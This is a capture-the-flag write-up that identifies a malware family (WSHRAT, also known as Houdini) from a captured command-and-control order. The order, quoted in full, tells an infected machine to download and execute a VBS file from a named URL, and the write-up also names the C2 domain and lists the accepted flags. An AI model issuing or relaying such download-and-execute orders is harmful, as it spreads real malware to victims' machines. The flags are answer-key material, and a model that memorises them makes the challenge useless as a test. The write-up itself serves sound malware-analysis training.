 # InfeXion 1/4 

### Category

Reverse

### Description

On `2023-04-29 10:10:07`, we received the following order from a C2 server located on the domain `ofi.dyn.ydns.io`:

```
down-n-exec|https://files.catbox.moe/qk7kvg.VBS|qk7kvg.VBS
```

**Warning : This series of challenges contains real world malware. Do not execute it on your host, use a VM !!**

The flag corresponds to malware family that sends this order, e.g. Hero{QAKBOT}.

Format : Hero{malware\_family}<br>
Author : xanhacks

### Hints

- If some files are unavailable at download, check on [archive.org](https://archive.org)

### Write Up

After a quick research on `down-n-exec`, you can find a few blog posts like [securitynews.sonicwall.com](https://securitynews.sonicwall.com/xmlpost/obfuscated-javascript-being-used-by-wshrat-v2-0/). We can learn that:

> After analysis, we found that these files belong to WSHRAT malware family.
> `down-n-exec`: Downloads and executes the specified executable file from the specified URL.

### Flag

**Hero{WSHRAT}**
**Hero{WSHRATv2}**
**Hero{HOUDINI}**
